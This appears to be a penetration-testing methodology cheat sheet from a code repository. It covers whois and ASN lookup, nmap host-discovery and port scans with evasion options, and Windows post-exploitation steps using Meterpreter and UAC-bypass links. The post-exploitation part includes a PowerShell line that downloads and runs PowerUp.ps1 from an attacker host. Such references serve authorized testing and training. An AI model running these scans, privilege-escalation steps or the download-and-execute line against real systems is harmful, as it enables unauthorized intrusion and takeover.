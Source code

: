 # Information Gathering
### Business
### Infrastructure
##### [Gather DNS Names and Public IPs](https://nmap.org/book/host-discovery-find-ips.html)
Confirm that any hosts found in this phase actually belong to the target, so as not to illegally scan or hack someone else.

* Perform whois on IP Address to get Net Block
```bash
whois <IP Address>
```
* [Look-up the CIDR from whois to get the Autonomous System Number](https://asn.cymru.com/cgi-bin/whois.cgi)
* [Find all of the IP prefixes which route to the AS Number](https://www.robtex.com/as/)

# Scanning
### Host Discovery 
##### Internet
* Simple Scan
```bash
sudo nmap -n -sn -g 53 -T4 -iL [Hosts File] | grep "Nmap scan report for" | cut -d ' ' -f5 > InternetDefaultPing
```
* [Extra probes to find more hosts](https://nmap.org/book/host-discovery-strategies.html)
```bash
sudo nmap -n -sn -g 53 -PE -PP -PS21,22,23,25,80,113,443,31339 -PA80,113,443,10042 -PU161,40125 -T4 -iL [Hosts File] | grep "Nmap scan report for" | cut -d ' ' -f5 > InternetExtendedPing
```
##### LAN
* [Simple Scan](https://nmap.org/book/host-discovery-techniques.html#host-discovery-default)
```bash
# Allow Reverse DNS to help identify candidates to exclude.
# Specify source port as DNS.
# Call as sudo to allow for default -sn options of -PE -PS443 -PA80 -PP.
# Otherwise, nmap can only send SYN packets.

# Look like Windows machine
sudo nmap -sn -g 53 --data-length 32 [Target Host]/[Network ID] --ttl 2 --randomize-hosts --reason --exclude [Attack Host] -oA LanDefaultPing

# Look like Linux maching
sudo nmap -sn -g 53 --data-length 56 [Target Host]/[Network ID] --ttl 2 --randomize-hosts --reason --exclude [Attack Host] -oA LanDefaultPing
```

### Scan Ports
##### Open Ports
* Basic Scan
```bash
sudo nmap -sS --open -p0- <Target Host> -oA TcpOpenPorts
sudo nmap -sUV --version-intensity 0 --open <Target Host> -oA UdpOpenPorts
```
* [FIN, NULL, and Xmas Scans](https://nmap.org/book/scan-methods-null-fin-xmas-scan.html)
* [Custom Scan Types](https://nmap.org/book/scan-methods-custom-scanflags.html)
* [ACK Scan](https://nmap.org/book/scan-methods-ack-scan.html)
* [Window Scan](https://nmap.org/book/scan-methods-window-scan.html)
* [Maimon Scan](https://nmap.org/book/scan-methods-maimon-scan.html)
* [Idle Scan](https://nmap.org/book/idlescan.html)

##### Fingerprint Ports

### [Scan Protocol](https://nmap.org/book/scan-methods-ip-protocol-scan.html)
### [FTP Bounce Scan](https://nmap.org/book/scan-methods-ftp-bounce-scan.html)

# Post Exploitation
### Windows
* [Meterpreter - Migrate process](../Tools/Metasploit/README.md#Processes).
* Meterpreter - ```getuid```
* Meterpreter - ```sysinfo```
* Meterpreter - ```getsystem```
* Meterpreter Suggester - ```post/multi/recon/local_exploit_suggester```.
* Check users in Administrators - ```net localgroup administrators```.
* Bypass UAC
  * [Manually](../Techniques/PostExploitation/PrivilegeEscalation/Windows/README.md#UAC)
  * Meterpreter
* PowerUp.ps1
  * [Download As String](../Tools/Metasploit/README.md#Download-File-To-String)
```bash
iex (New-Object Net.WebClient).DownloadString('http://[Attack Host]/PowerUp.ps1')
Invoke-AllChecks
```
* [DLL Hijacking](../Techniques/DLL_Preloading/README.md)
